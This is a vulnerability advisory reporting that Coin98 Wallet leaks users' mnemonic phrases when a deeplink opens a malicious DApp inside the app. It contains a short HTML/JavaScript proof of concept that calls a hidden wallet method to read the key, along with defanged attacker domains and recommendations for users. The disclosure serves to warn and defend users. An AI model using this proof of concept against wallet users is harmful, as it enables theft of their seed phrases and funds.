

# Coin98 Wallet App 1-Click Mnemonic Theft Vulnerability Is Being Exploited in the Wild

## Impact

Opening a malicious DApp inside the wallet app is enough to cause the mnemonic phrase to be stolen.

A DeepLink can be used to open the wallet app and redirect it to a malicious DApp. In other words, **a single click can lead to your mnemonic phrase being stolen.**

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Document</title>
  </head>
  <body>
    <script>
      (async function () {
        const j1 = await window.ethereum.request({ method: "santinizeKey" });
        alert(JSON.stringify(j1));
      })();
    </script>
  </body>
</html>
```



## IoCs

Attacker domains. Do not click:

https://coin98[.]fun     --> phishing page

https://aicoinhk[.].com  --> attacker's server for receiving mnemonic phrases

## Recommendations for Coin98 Wallet Users

* Stop using Coin98 Wallet immediately and switch to another wallet.
* If you have recently clicked an unknown link, immediately transfer your assets to another wallet.
